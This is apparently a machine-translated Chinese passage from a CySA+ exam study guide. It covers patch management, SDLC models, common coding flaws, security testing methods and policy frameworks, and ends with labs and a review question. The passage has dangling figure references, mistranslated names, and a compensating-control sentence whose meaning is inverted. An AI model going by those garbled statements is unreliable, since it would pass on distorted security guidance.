`Baselining`（基线设定）是配置管理的一个重要组成部分。基线是系统或应用程序在特定时间的快照。它可用于评估系统是否在批准的变更管理之外发生了更改。系统管理员可能会将运行中的系统与基线进行比较，以识别系统的所有更改，然后将这些更改与批准的变更请求列表进行对比。

`Version control`（版本控制）也是变更管理程序的关键组成部分，特别是在软件和脚本开发领域。版本控制为软件的每个发布版本分配一个递增的版本号，用于识别任何特定副本。

配置管理还应该创建可能有助于理解系统配置的制品。例如，图表在理解系统配置方面经常起着作用。

### 补丁管理

对操作系统应用补丁至关重要，因为这确保系统不会受到攻击者发现的漏洞的影响。在 Windows 中，Windows Update 机制是应用补丁最简单的方法。在 Linux 上，管理员可能会根据其发行版使用多种机制。作为安全管理员，你应该确保你的系统配置为在更新发布时接收更新。

## 软件保证最佳实践

构建、部署和维护软件需要在整个生命周期中引入安全参与。CySA+ 考试目标重点关注软件生命周期、软件评估方法和工具、编码实践、平台和架构。

### 软件开发生命周期

`software development life cycle (SDLC)`（软件开发生命周期）描述了软件开发模型中的步骤。如图 8.5

**图 8.5** 高级 SDLC 视图

### 软件开发阶段

无论组织选择哪种 SDLC 或流程，大多数 SDLC 模型中都会出现几个阶段：

1. `feasibility`（可行性）阶段是开展是否应该进行该工作调查的阶段。可行性还会考虑替代方案以及每个提议方案的高层成本。其结果是一个带有后续行动计划的建议。

2. 一旦项工作被认为可行，它通常会进入 `analysis and requirements definition`（分析和需求定义）阶段。在此阶段，将寻求客户输入以确定所需的功能是什么、当前系统或应用程序做了和没有做什么，以及希望哪些改进。可能会对需求进行排序，以确定哪些需求对项目的成功至关重要。

3. `design` 阶段包括功能设计、架构设计、集成点与技术、数据流、业务流程以及任何需要设计考虑的元素。

4. 应用程序的实际编码发生在 `development` 阶段。此阶段可能涉及软件部分的测试，包括 `unit testing`（对小型组件进行单独测试以确保其功能正常）和 `code analysis`。

5. 虽然开发阶段可能会进行某些测试，但与客户或开发团队之外人员的正式测试发生在 `testing and integration` 阶段。单个单元或软件组件将被集成并然后进行测试，以确保功能正常。此外，与外部服务、数据源和其他内容的连接也可能在此阶段发生。在此阶段，会进行 `user acceptance testing` (UAT)，以确保软件用户对其功能表示满意。

6. 确保最终用户接受过软件培训并确保软件进入通用使用的重要任务发生在 `training and transition` 阶段。此阶段有时被称为验收、安装和部署阶段。

7. 一旦项目完成，应用程序或服务将进入通常是最长的一个阶段：`ongoing operations and maintenance`。此阶段包括补丁、更新、微调以及其他日常支持工作。

8. 当产品或系统寿命结束时，进入 `disposition` 阶段。尽管在开发新产品的兴奋，处置往往会被忽视，但出于多种原因，它是一个重要的阶段：停止旧产品可以节省成本，更换现有工具可能需要特定知识或额外努力，数据和系统可能需要保存或妥善处置。

阶段的顺序可能有所不同，某些以简单的线性方式进行，而另一些则迭代或并行方法。在成功的软件生命周期中，你仍然可以看到这些阶段的某种形式。

## 软件开发模型

SDLC 有许多处理方法，随着时间的推移，已经建立了许多正式模型来帮助为开发提供通用框架。虽然正式的 SDLC 模型可以非常详细，包含特定的实践、程序和文档，但许多组织会选择一个或多个模型中最符合其组织风格、工作流和要求的元素。

### 瀑布型

`Waterfall` 方法论是一种顺序模型，每个阶段之后都跟着下一个阶段。阶段之间不重叠，每个阶段在逻辑上引向下一个阶段。典型的六阶段瀑布流程见图 8.6。在阶段 1 中，收集并记录需求。阶段 2 涉及旨在构建业务规则和模型的分析。在阶段 3 中，设计软件架构，并在阶段 4 中进行软件的编码和集成。一旦软件完成，进入阶段 5，在此阶段完成测试和调试。最后，软件进入运行阶段，支持、维护和其他运营活动将持续进行。


**FIGURE 8.6** 瀑布型 SDLC 模型

瀑布模型在许多组织中已被其他方法取代，因为它被认为相对缺乏活性，但它仍在使用于复杂系统。由于瀑布模型对变化的响应并不灵敏，因此无法快速响应变化。

### 螺旋型

`Spiral` 模型使用了瀑布模型的概念，并增加了一个多次访问各个阶段的迭代过程。图 8.7 所示的螺旋模型使用了四个阶段：

1. `Identification`，或需求收集。

2. `Design`，概念性的、逻辑性的有时是物理性的。

3. `Build`，产生初始证明。

4. `Evaluation`，涉及风险评估。


**FIGURE 8.7** 螺旋型 SDLC 模型

### 敏捷

`Agile` 软件开发是一个迭代和增量的过程，而不是瀑布和螺旋模型所使用的线性过程。敏捷源于《敏捷开发宣言》，该文档包含四个前提：

* 个人和交互比过程和工具更重要。

* 可行的软件优于详尽的文档。

* 客户协作取代合同谈判。

* 响应变化是关键，而不是遵循计划。

工作通常被分成短的工作会议，称为 `sprints`，持续时间几天到几周不等。图 8.8 显示了具有多个迭代的敏捷项目方法的简化视图。


**FIGURE 8.8** 敏捷迭代

*   进展通过交付可运行的软件来衡量。

*   开发应以可以持续维持的进度进行。

*   持续关注技术卓越性和良好的设计。

*   简单性——最大化未完成工作量的艺术——是至关重要的。

*   最佳的架构、需求和设计源于自组织团队。

*   团队应该反思如何变得更高效，然后定期实施这些行为。

这些原则驱动着一种软件开发生命周期（SDLC）过程，该过程的结构化比螺旋模型或瀑布模型不那么正式，但提供了许多客户反馈和修订的机会。它能够更敏捷地响应问题，并且通常允许更快的客户反馈——这在发现安全问题时是一个巨大的优势。

敏捷开发使用了一系列专业术语：

*   `Backlogs`（待办列表）是完成项目所需的特性或任务列表。

*   `Planning poker`（计划扑牌）是敏捷开发过程中用于估计和规划的工具。估算者获得带有完成任务所需工作量分值的卡片。估算者被要求进行估计，并且每个人透露他们对任务的“出价”。这一过程一直持续到达成共识，目标是估算者通过讨论达成相同的估计值。


* `Timeboxing`（时间箱）是一个描述使用时间箱的术语。时间箱是个人或团队预先约定的用于完成某个特定目标的时间。它将某个目标的时间限制在时间箱时间内，而不是允许工作一直持续完成。一旦时间箱结束，将对完成的工作进行评估，以确定下一步需要做什么。

* `User stories`（用户故事）被收集用于描述高层用户需求。一个用户故事可能是“用户可以通过移动应用程序更改他们的密码”，这将为敏捷工作会议的估计和规划提供方向。

* `Velocity tracking`（速率跟踪）通过累加当前冲刺的工作量估计值，然后将其与完成的内容进行比较来进行。这告诉团队他们是正处于轨道上、更快还是比预期更慢。

### 快速应用开发

RAD（快速应用开发）模型是一个依赖于构建原型的迭代过程。与许多其他方法不同，它没有规划阶段；相反，规划是在编写软件时完成的。RAD 依赖于并行开发的各个组件，然后将其集成以产生最终产品。与敏捷开发类似，RAD 可以提供一个高响应的开发环境。

RAD 涉及五个阶段，如图图 8.9。

**图 8.9** 快速应用开发原型

### DevSecOps 和 DevOps

`DevOps` 将软件开发与 IT 运维相结合，目标是优化 SDLC。这是通过使用称为工具链（toolchains）的工具集合实现的，旨在改进开发生命周期中的编码、构建与测试、打包、发布、配置和配置管理以及监控元素。

当然，DevOps 也应该将安全内置在其中。`DevSecOps` 术语将安全描述为 DevOps 模型的一部分。在这个模型中，安全是一项共同责任，是整个开发和运维周期的一部分。这意味着将安全集成到生成应用程序和服务的所进行的设计、开发、测试和运维工作中。

安全从业人员在 DevSecOps 模型中的角色包括威胁分析与通信、规划、测试、提供反馈，当然还有持续改进和安全意识的责任。做到这一点需要对组织的风险容忍度有深刻的理解，并意识到 DevSecOps 环境中的其他参与者在做什么以及何时做。DevOps 和 DevSecOps 经常与持续集成和持续部署方法相结合，在这些方法中，它们可以依靠自动化安全测试以及集成的安全工具（包括扫描、更新和配置管理工具）来确保安全。

### 持续集成与持续部署

`Continuous integration`（持续集成，`CI`）是一种开发实践，持续持续地将代码提交到共享存储库中。在持续集成环境中，其范围可以从每天几次到非常频繁的提交和自动化构建。

由于持续集成依赖于自动化构建过程，它还需要自动化测试。它通常还与`continuous deployment`（持续部署，`CD`，有时称为持续交付）配合使用，在更改一旦通过测试后自动将其发布到生产环境。

图 8.10。

**图 8.10** CI/CD 流水线

使用持续集成和持续部署方法需要将自动化安全测试构建到流水线测试过程中。可能会导致新的漏洞部署到生产环境中，并可能允许不可信或恶意的开发者在部署的代码中插入缺陷，然后在下一个循环中移除这些代码。这意味着日志、报告和监控都必须设计为适应 CI/CD 流程。

## 为了安全进行设计和编码

作为安全专业人员参与 SDLC 为提高应用程序安全性提供了重大机会。帮助软件安全的第一个机会是在需求收集和设计阶段，此时安全可以作为需求的一部分被构建，并根据这些需求进行设计。随后，在开发过程中，安全编码技术、代码审查和测试可以提高开发代码的质量和安全性。

在测试阶段，可以使用 Web 应用安全扫描或渗透测试技术对集成软件进行测试。这为持续的安全运营奠定了基础，为补丁和更新期间未来的安全扫描和回归测试建立了基准。在整个过程中，理解开发者面临的常见问题会有帮助。

### 常见的软件开发安全问题

安全从业人员可能会遇到许多软件缺陷，但让我们关注一些最常见的，例如以下：

* `错误的错误处理`（Improper error handling）通常会导致不应暴露在安全环境之外的错误信息能够被攻击者或普通公众访问。由于错误通常包含发生错误时现场的详细信息，攻击者可以利用这些信息了解应用程序、数据库，甚至获取堆栈跟踪信息，这些信息可以提供他们在进一步攻击中利用的详尽细节。看似没有提供详细信息的错误，仍然可能让攻击者了解更多关于应用程序的信息，因为不同的响应可以给攻击者提供关于其尝试成功程度的线索。作为安全实务人员，你应该密切关注显示可访问错误信息的应用程序漏洞报告，以及这些信息的内容。

* `解引用`（Dereferencing）问题通常是由于空指针解引用引起的。这意味着一个值为 `NULL`（换句话说，即未设置值）的指针被当成包含预期值来使用。除非被错误处理程序捕获，否则这类错误几乎总是会导致程序崩溃。正如稍后将提到的，竞态条件（Race conditions）也是发现解引用问题的常见出处。

* `不安全的对象引用`（Insecure object references）发生在应用程序暴露内部对象的信息时，允许攻击者看到对象在后端存储系统中是如何被标识和存储的。一旦攻击者知道了这些，他们就可能利用这些信息获取进一步的访问，或者对他们无法以此方式查看的其他数据对象做出假设。

* `竞态条件`（Race conditions）依赖于时。需要对对象执行操作的应用程序可能对该对象正在发生或已经发生的情况敏感。虽然竞态条件并不总是可靠，但它们可能非常强大，针对竞态条件的反复攻击可能会导致攻击者获得成功。

* `身份验证破解`（Broken authentication）正如其字面意思。实现不当的身份验证可能允许未登录或未以正确权限用户登录的攻击者访问资源。实现一个强大且可靠的身份验证（以及授权！）系统是应用程序编码的重要部分。

* `敏感数据泄露`（Sensitive data exposure）可能在多个缺陷中的任何一个被利用时发生。这种情况最简单的形式是应用程序没有妥善保护敏感数据，允许攻击者访问它。

* `不安全的组件`（Insecure components）包括当应用程序或服务的组件存在漏洞时引入的广泛问题，从而将该漏洞引入应用程序中。了解构成应用程序的所有组件和模块，对于判断其是否存在由于这些组件而导致的已知漏洞至关重要。

* `日志和监控不足`（Insufficient logging and monitoring）将导致在出现问题时无法确定发生了什么。强大的安全设计的一部分是确定哪些内容应该被记录和监控，确保它们被妥善捕获，然后建立流程和系统来处理这些日志和事件，以便在它们发生时采取正确的处理措施。

* `弱或默认配置`（Weak or default configurations）在应用程序和服务未经过妥善设置或使用默认设置时非常常见。其一个常见的例子是对服务或数据库连接使用默认密码。许多应用程序漏洞扫描器都会寻找这些默认配置，使得攻击者更容易找到它们。

* `使用不安全的函数`（Use of insecure functions）会使代码的加固变得困难得多。像 `strcpy` 这样没有内置关键安全功能的函数可能会导致代码更容易被攻击者针对。`strcpy` 允许在拷贝数据时而不关心源地是否大于目标地。如果发生这种情况，攻击者可以在原始目标地之外的内存位置放置任意数据，可能导致缓冲区溢出攻击的成功。

### 安全编码最佳实践

生成安全代码的最佳实践将取决于应用程序、其基础设施和后端设计，以及它是用什么框架或语言编写的。尽管如此，许多相同的开发、实现和设计最佳实践适用于大多数应用程序。这些包括以下：

* `输入验证`（Input validation）有助于防止从跨站脚本（XSS）到 SQL 注入攻击的各种范围的问题。

* `输出编码`（Output encoding）在目标应用程序或解释器读取特殊字符之前，将特殊字符翻译成等效但安全的版本。这通过防止插入导致目标应用程序执行操作的特殊字符来帮助 XSS 攻击。

* `安全会话管理`（Secure session management）确保攻击者无法劫持用户会话，或者会话问题不会引起用户之间的混淆。

* `身份验证`（Authentication）将应用程序的访问限制为仅经过身份验证的用户或系统。使用`多因素身份验证`（multifactor authentication）有助于限制凭据泄露的影响。

* `数据保护`（Data protection）技术（如加密）可以保护数据在存储或通过网络传输时免受窃听和其他机密性违规的影响。

* `参数化查询`（Parameterized queries）通过预编译 SQL 查询来防止 SQL 注入攻击，这样在执行查询时可能就不会插入新代码。

## 软件安全测试

无论应用程序的开发团队有多才，代码中总会有某些形式的缺陷。Veracode 最近的一项研究显示，他们扫描的 140 万个应用程序中有 83% 在初始扫描中至少有一个安全漏洞。这个数字表明，迫切需要将软件安全测试更好地集成到软件开发生命周期中。

安全专业人员和开发者可以使用各种手动和自动测试工具及方法。幸运的是，自动化工具一直在不断改进，为验证代码更安全提供了更简单的方法。在接下来的几页中，我们将回顾一些关键的软件安全测试方法。

### 软件评估：测试和分析代码

构成应用程序的基础代码可能包含各种错误，从编程和语法错误到业务逻辑、错误处理以及与其他系统集成方面的问题。分析代码以理解它是做什么的、如何执行该任务以及何时可能出现缺陷是非常重要的。这通常通过静态或动态代码分析，结合模糊、故障注入、变异测试和压力测试来实现。一旦对代码进行了修改并部署，必须进行回归测试，以确保修复没有产生新的安全问题。

### 静态代码分析

`静态代码分析`（Static code analysis，也称为源代码分析）通过审查应用程序代码来进行。由于静态分析使用了应用程序的源代码，因此可以被视为一种具有完全可见性的白盒测试。这允许测试人员发现其他测试方法可能会漏掉的问题，因为这些逻辑没有暴露在其他测试方法中，或者是由于内部业务逻辑问题。

### 动态代码分析

`动态代码分析`依赖于在执行代码的同时向其提供输入以测试软件。与静态代码分析类似，动态代码分析可以通过自动化工具或手动进行，但由于大多数动态代码测试过程中需要进行大量的测试，人们更倾向于使用自动化测试。

### 模糊测试（Fuzzing）

`模糊测试`（或 `fuzzing`）涉及向应用程序发送无效或随机数据，以测试其处理意外数据的能力。对应用程序进行监控，以确定其是否会崩溃、失败或以错误的方式响应。由于模糊测试涉及的数据量巨大，模糊测试通常是自动化的，它对于检测输入验证和逻辑问题以及内存泄漏和错误处理特别有帮助。遗憾的是，模糊测试往往只能识别出简单的问题；它没有考虑到复杂的逻辑或业务流程问题，而且如果不监控其进度，则可能无法提供完整的代码覆盖率。

### 故障注入（Fault Injection）

与模糊测试不同，故障注入直接将故障插入错误处理路径中，特别是那些极少使用或在正常测试期间可能会被忽略的错误处理机制。故障注入可以通过三种方式之一进行：

- 编译时注入：通过修改应用程序的源代码来插入故障
- 协议软件故障注入：使用模糊测试技术向期望符合协议输入的应用程序或服务发送意外或不符合协议的数据
- 运行中向运行程序注入数据：通过将数据插入程序的运行内存中，或者以一种导致程序必须处理这些故障的方式来注入故障

由于故障注入过程中存在人为错误的风险，故障注入通常是使用自动化工具完成的。

### 变异测试（Mutation Testing）

变异测试与模糊测试和故障注入有关，但它并不是改变程序的输入或向其引入故障，而是对程序本身进行细微修改。然后对这些更改后的版本（即变异体）进行测试，如果它们导致失败，则予以拒绝。变异本身由规则引导，这些规则旨在创建常见错误，并复制人员在正常编程过程中引入的错误类型。与故障注入类似，变异测试有助于识别很少使用的代码问题，但它还可以通过发现脚本未能充分测试可能问题的地方，帮助识别测试数据和脚本的问题。

### 压力测试与负载测试（Stress Testing and Load Testing）

应用程序的性能测试与代码缺陷测试同样重要。确保应用程序及其支持的系统能够承受预期的全生产负载是典型的 SDLC（软件开发生命周期）过程的一部分。当应用程序准备好测试时，会使用`压力测试应用程序`和`负载测试工具`来模拟全应用负载；在压力测试的情况下，会超出任何正常负载水平，以观察应用程序或系统在达到测试点时将如何响应。

压力测试也可以针对应用程序的单个组件进行，确保它们能够处理负载情况。在集成测试和组件测试期间，也可以使用故障注入来确保应用程序能够妥善处理高负载期间出现的问题。

### 安全回归测试（Security Regression Testing）

`回归测试`侧重于通过测试以确保所作的更改不会产生新问题。从安全的角度来看，这在安装补丁或对系统或应用程序应用新更新时通常会发挥作用。执行`安全回归测试`是为了确保没有引入新的漏洞、配置错误或其他问题。

使用 Web 应用程序漏洞扫描器和其他漏洞扫描工具进行自动化测试，通常作为自动化或半自动化回归测试过程的一部分。通过生成报告，在进行更改之前之后审查应用程序（及其底层服务器和服务）的状态，以确保其保持安全。

### 用户验收测试（User Acceptance Testing）

除了许多类型的安全测试外，`用户验收测试 (UAT)` 是测试周期中的一个重要元素。一旦完成应用程序或程序的所有功能和安全测试，将要求用户验证其是否满足业务需求和可用性要求。由于开发者很少了解或执行他们编写的应用程序将要执行的所有业务功能，因此阶段对于验证程序在正常情况下运行尤为重要。

理想情况下，UAT 应该有一个正式的测试计划，涉及用户将执行的所有业务流程示例。这应该与验收标准相结合，以指示哪些要求是可以接受的。

### 调试器（Debuggers）

`调试器`在代码中也起着重要作用。这些工具旨在帮助开发者排除故障，同时也允许测试人员对执行文件进行动态分析。

在准备考试时，你应该熟悉两种常用的调试工具：

- `Immunity debugger`：专门为渗透测试和恶意软件反向工程设计。
- `GNU debugger (GDB)`：一种广泛使用的开源 Linux 调试器，支持多种编程语言。

渗透测试人员可能会尝试使用调试器和相关工具执行代码的反编译。这一过程尝试获取一个执行文件并通过反向工程将其转换回源代码。这一过程非常困难，且很少成功。

## 策略、治理与服务水平目标（Policies, Governance, and Service Level Objectives）

组织的`信息安全策略框架`包含了一系列描述组织网络安全计划的文档。这些文档的范围和复杂性差异很大，取决于组织的性质及其信息资源。这些框架通常包含四种类型的文档：

- 策略（Policies）
- 标准（Standards）
- 步骤（Procedures）
- 指南（Guidelines）

在在本节的剩余部分，你将学习这些不同类型文档之间的区别。然而，请记住，这些类别的定义在不同组织之间差异巨大，发现它们之间的界限模糊是非常常见的。虽然从初看之下这似乎是“错误的”，但它是安全理论遇到现实世界时的自然现象。只要文档实现了其预期的目的，就没有问题。

在许多组织中，制定政策的过程非常耗时，并且需要非常高级别的审批，通常需要来自首席执行官（CEO）。保持政策声明的高层级，可以让首席信息安全官（CISO）具备灵活性，根据业务和技术环境的变化来调整和更改特定的安全需求。例如，圣母大学的一份五页纸的信息安全政策简单地规定道：

> 信息治理委员会将为每种“高度敏感”数据元素创建处理标准。数据所有者可以对其管理范围内的其他数据元素创建标准。这些信息处理标准将根据数据的分类，规定用于管理大学信息及相关资产风险的控制措施。该大学的所有人员都有责任遵守这些控制措施。

形成对比的是，美国联邦政府的医疗与梅尔德保险服务中心（CMS）拥有一份达 95 页的信息安全政策。这份巨大的文件包含了极其详尽的要求，例如：

> CMS 首席信息官（CIO）必须维护所有监控请求记录，以及监控期间产生的任何其他摘要结果或文档。记录还必须通过记录搜索词和技术来反映监控范围。从监控中收集的所有信息必须受到控制和保护，分发仅限于监控请求中识别的人员，以及 CMS 管理员或 CMS CIO 特别指定的具有此类信息特定需求的人员。

这种方法可能满足 CMS 的需求，但很难想象该文档的长期维护。冗长的安全政策往往很快过时，因为对单个要求的必要更改不断积累并被忽视，由于员工对不断发布新版本的政策感到疲惫。

组织通常会在信息安全策略库中包含以下文档：

* `Information security policy`（信息安全策略）：为安全计划提供高层权威和指导。
* `Acceptable use policy (AUP)`（可接受使用策略）：为网络和系统用户提供信息资源明确的方向。
* `Data ownership policy`（数据所有权策略）：明确组织创建或使用的信息的所有权。
* `Data classification policy`（数据分类策略）：描述组织使用的分类结构以及为数据正确分配分类的过程。
* `Data retention policy`（数据保留策略）：概述组织将维护的信息以及不同类别的工作产品在销毁前保留的时间。
* `Account management policy`（账户管理策略）：描述从配置到激活使用直至注销的账户生命周期。
* `Password policy`（密码策略）：规定密码长度、复杂度、重复使用及类似问题的要求。
* `Continuous monitoring policy`（持续监控策略）：描述组织的监控方法，并告知员工其在工作场所活动受监控。
* `Code of conduct/ethics`（行为准则/伦理）：描述员工和关联人的预期行为，并作为政策未具体说明情况的兜底。

当你阅读此列表时，可能会注意到列出的某些文档倾向于与我们对政策作为“高层文档”的描述相冲突，并且似乎更符合下一节中“标准（standard）”的定义。这是一个合理的结论。CompTIA 特别将这些项目作为信息安全策略的元素，而许多组织会将其中某些内容（如密码要求）移动到标准文档中。

### 标准（Standards）


`Standards`（标准）提供了强制性要求，描述了组织如何执行其信息安全策略。这些标准可能包括用于通用操作系统的特定配置设置、高度敏感信息必须实施的控制措施，或任何其他安全目标。标准的通常在比策略更低的组织级别获得批准，因此更改可能更频繁。

例如，加州大学伯克利分校维护着一份名为《电子信息最低安全标准》的详细文档，可在`https://security.berkeley.edu/minimum-security-standards-electronic-information`在线获取。该文档将信息分为四个不同的数据保护级别（DPL），然后使用详细矩阵描述了不同级别的数据需要哪些控制措施、哪些是可选或不需要。该矩阵的片段出现在图 8.11 中。


`图 8.11` 加州大学伯克利电子信息最低安全标准片段 来源：加州大学伯克利分校电子信息最低安全标准

标准随后提供了这些每个要求的详细描述，并对要求中使用的术语进行了定义。例如，图 8.11 中的要求 3.1 简单读为“安全配置”。在文档的后半部分，加州大学伯克利分校将其扩展为：“资源管理员必须根据行业标准，对硬件、软件和操作系统利用良好管理的安全配置。”随后定义了“良好管理”为：

* 设备在部署之前必须具备安全配置。
* 任何对定义安全配置的偏差必须通过变更管理过程批准并记录。必须存在一个流程每年审查偏离定义安全配置的偏差，以确保其持续有效。
* 必须存在一个流程定期检查设备配置并在发生任何更改时通知资源管理员。

这种方法提供了一个易于阅读的文档层次结构，并根据需要提供日益增加的细节。同时注意，图 8.11 中的许多要求行都提供了指南链接。点击这些链接将引导至针对本政策约束组织的建议，该以下文本开头：

> 加州大学伯克利安全政策规定，处理涵盖数据的设备必须遵守《电子信息最低安全标准》。以下建议作为可选指导。

这是信息安全策略框架中三个元素协同工作的完美示例。政策设定了安全计划的高层目标，并要求遵守标准，标准包含了所需控制措施的细节。指南为寻求遵守政策和标准的组织提供建议。

### 程序 (Procedures)

`Procedures`（程序）是详细的、分步骤的流程，个人和组织在特定情况下必须遵循这些流程。与清单类似，程序确保了实现安全目标时流程的一致性。组织可能会为构建新系统、发布代码到生产环境、响应安全事件以及许多其他任务创建程序。遵守程序是强制性的。

例如，Visa 发布了一份名为[如果泄露该怎么办（What to Do If Compromised)](https://usa.visa.com/dam/VCOM/download/merchants/cisp-what-to-do-if-compromised.pdf) 的文档，该文档列出了怀疑信用卡泄露的商户必须遵循的强制流程。尽管文档标题中没有包含`procedure`（程序）一词，但引言部分明确指出，该文档“为报告和响应疑似或确认的泄露事件确立了程序和时间表”。该文档提供的要求涵盖了事件响应的以下领域：

* 在三天内向 Visa 通通知该事件。
* 向 Visa 提供初步调查报告。
* 通知其他相关方。
* 向 Visa 提供泄露的支付账户数据。
* 进行 PCI 取证调查。
* 进行独立调查。
* 保留证据。

这些每个部分都提供了关于 Visa 如何期望商户处理事件响应活动的详细信息。例如，取证调查章节描述了支付卡行业取证人员（PFI）的使用，内容如下：

> 在发现账户数据泄露或收到独立取证调查通知后，实体必须：
>
> * 在五（5）个工作日内聘用 PFI（或签署合同）。
> * 在聘用 PFI（或签署合同）后的十（10）个工作日内向 Visa 提供初步取证（即初步的）报告。
> * 在评审完成后的十（10）个工作日内向 Visa 提供最终取证报告。

这类语言没有留出太大的解读空间。Visa 正在阐述一个清晰且强制的程序，描述了商户必须采取的行动、他们应该雇用的调查人员类型，以及完成不同里程碑的时间表。

组织通常会在其策略框架中包含以下程序：

* `Monitoring procedures`（监控程序），描述组织将如何执行安全监控活动，包括可能使用的持续监控技术。
* `Evidence production procedures`（证据制作程序），描述组织将如何响应传票、法院命令和其他提交数字证据的合法请求。
* `Patching procedures`（补丁程序），描述对组织维护的应用程序和系统应用补丁的频率和流程。

当然，网络安全团队可能会根据组织的运营需求，在他们的框架中包含许多其他类型的程序。

### Guidelines（指南）

`Guidelines`（指南）提供了与给定概念、技术或任务相关的最佳实践和建议。遵守指南不是强制性的，提供的初衷是提供有用的建议。尽管如此，指南的“可选性”可能会根据组织的文化而有很大差异。

2016 年 4 月，华盛顿州首席信息官（CIO）发布了一份 25 页的文档，为州机构使用电子签名提供了指南。该文档的设计并非为了强制执行，而是为寻求采用电子签名技术的机构提供建议。文档从目的部分开始，概述了该指南的三个目标：

1. 帮助机构确定它们将以及在多大程度上实施和依赖电子签名。
2. 为机构提供其用于建立政策或规则的信息。
3. 为机构共享政策提供指导。

前两个陈述的目标与指南的功能完全吻合。`help agencies determine`帮助机构确定）和`provide agencies with information`为机构提供信息）等短语在指南文件中很常见。第三个目标出现在指南中似乎有点奇怪。`provide direction`提供指导）之类的短语更多出现在政策和程序中。浏览文档，与此目标相关的文本仅是 25 页文档中的一段，内容如下：

> 首席信息官办公室在 OCIO.wa.gov 网站维护了一个列出各机构签名和提交政策的页面。当机构发布政策时，应将链接和机构联系信息发送到 OCIO 邮箱。信息将在 5 个工作日内添加到页面。如果信息发生变化，机构负责通知 OCIO。

阅读这段话，文本似乎清晰地概述了一个强制程序，并不适合出现在指南文件中。然而，起草此文档的委员会可能认为，将解释性文本包含在相关的指南中对读者更方便，而不是为一个相当平凡的任务编写单独的程序文档。

### Exceptions and Compensating Controls（例外与补偿控制）

在采用新的安全策略、标准和程序时，组织还应该提供这些规则的例外机制。不可避免地，会出现需要偏离要求的意外情况。策略框架应列出获得例外的具体要求以及有权批准例外的个人或委员会。

华盛顿州使用一种例外流程，要求请求者记录以下信息：

* 需要例外的标准/要求
* 不符合要求的原因
* 例外的业务和/或技术理由
* 例外的范围和期限
* 与例外相关的风险
* 缓解例外相关风险的补充控制描述
* 实现合规的计划
* 任何未缓解风险的识别

许多例外流程要求使用`compensating controls`（补偿控制）来减轻与例外相关的风险。支付卡行业数据安全标准（PCI DSS）包含了目前使用的最正式的补偿控制流程之一。它规定了满意的补偿控制必须满足的三个标准：

1. 控制必须符合原始要求的意图和严谨性。
2. 控制必须提供与原始要求类似的防御水平，使得补偿控制能够充分抵消原始 PCI DSS 要求旨在防御的风险。
3. 控制必须“超出”其他 PCI DSS 要求。

例如，一个机构可能会发现，它需要在特定机器上运行过旧版本的操作系统，因为运行业务所需的软件只能在该特定操作系统版本上运行。大多数安全策略都会禁止使用过旧的操作系统，因为其可能易受到安全漏洞的影响。该机构可以选择将此系统运行在隔离的网络上，并且对与其他系统的访问极少或不访问，作为一种补偿控制。

其核心思想是，当机构无法满足原始控制要求时，通过补偿控制寻找替代手段来实现目标。虽然`PCI DSS`为补偿控制提供了一个非常正式的流程，但补偿控制的使用是许多不同机构（即使是不受`PCI DSS`约束的组织）的常用策略。补偿控制平衡了这样一个事实：即在任何情况下实现每项要求的安全控制都是可能的，以及在可行范围内尽可能管理风险的意愿。

在许多情况下，机构采用补偿控制来解决安全要求的临时例外情况。在这些情况下，机构还应该制定补救计划，使机构恢复符合原始控制的字面规定和意图。

## 总结

网络安全工作的核心在于风险和漏洞管理。在本章中，你学习了网络安全分析师用于识别、评估和管理各种风险与漏洞的技术。你学习了风险缓解、风险规避、风险转移和风险接受之间的区别，以及何时使用每种方法合适。你还探索了机构可以用来缓解风险的不同类型的安全控制。在下一章中，我们将开始探索第 3 领域：事件响应与管理。

## 考试要点

**解释风险识别和评估如何帮助机构优先考虑网络安全工作。** 网络安全分析师寻求识别机构面临的所有风险，然后进行业务影响分析，根据风险发生的概率和对机构产生的潜在影响程度来评估风险程度。这项工作允许安全专业人员对风险进行优先级排序，并向机构内的其他人沟通风险因素。

**了解供应商是外部风险的来源。** 机构应该作为其风险评估实践的一部分进行自身的系统评估，但还应该进行供应链评估。执行供应商尽职调查可以减少供应商处先前未识别风险对机构产生负面影响的可能性。硬件源真实性技术可以验证硬件在离开供应商场所后未被篡改。

**描述各种风险管理策略。** 风险规避策略通过改变业务实践来消除风险。风险缓解技术寻求降低风险发生的概率或影响。风险转移方法将部分风险转移给第三方。风险接受承认风险的存在，并在存在风险的情况下继续正常业务运营。

**理解软件安全测试工具的使用。** 静态代码分析工具和技术在不执行代码的情况下分析代码的结构和内容。动态分析技术实际上执行代码。模糊测试（Fuzzing）是一种常见的动态测试技术，向应用程序发送人工生成的输入。调试器用于尝试从可执行文件中逆工程出源代码。

**描述策略框架及其组成部分。** 策略是管理层对信息安全计划的高层意图声明。标准描述了策略的详细实现要求。程序提供了执行安全活动的逐步操作说明。对策略、标准和程序的遵守是强制性的。指南提供了可选的建议，作为策略框架中其他要素的补充。用于设定安全方法的框架可以是规定性的，也可以是基于风险的。

**描述定构机构如何经常采用一套涵盖其安全计划不同区域的安全策略。** 安全程序中使用的常用策略包括信息安全策略、可接受使用策略、数据所有权策略、数据保留策略、账户管理策略和密码策略。任何机构采用的特定策略将取决于该机构的文化和业务需求。

**策略文档应包含例外流程。** 例外流程应当概述获得安全策略例外所需的信息以及每个例外的批准权限。该流程还应该描述缓解与已批准的安全策略例外相关风险的补偿控制要求。

## 实验练习

### 实际 8.1：风险管理策略

将以下风险管理策略与其描述进行匹配。

| 风险 | 描述 |
| :--- | :--- |
| 风险规避 (Risk avoidance) | 尽管存在潜在风险仍选择继续正常运营 |
| 风险转移 (Risk transference) | 改变业务活动以消除风险 |
| 风险缓解 (Risk mitigation) | 将风险的影响转移给另一个组织 |
| 风险接受 (Risk acceptance) | 实施降低风险概率和/或影响的安全控制措施 |

### 活动 8.2：风险识别与评估

对于此练习，请使用你所在的机构。如果你目前没有就业，可以使用你的学校或你熟悉的其他机构。

思考对你机构生存至关重要的业务流程。识别影响该业务流程持续运行的所有风险。然后选择其中一个风险，对该风险进行定量或定性的风险评估。

### 活动 8.3：风险管理

采用你在活动 8.2 中开发的风险评估。识别以下每种风险管理策略至少一种可以用来来处理该风险的方法：

* 风险缓解
* 风险规避
* 风险接受
* 风险转移

你认为这些策略中哪种最适合你的场景？为什么？如果你认为选择多种策略是管理风险的最佳方式，请自由选择选择一种策略。

## 复习题

1. Jen 发现 Windows 服务器上缺少一个补丁，这可能允许攻击者获得系统的远程控制。在咨询经理意见后，她应用了该补丁。从风险管理的角度来看，她做了什么？

   1. 消除了威胁
   2. 减少了威胁
   3. 消除了漏洞
   4. 减少了漏洞

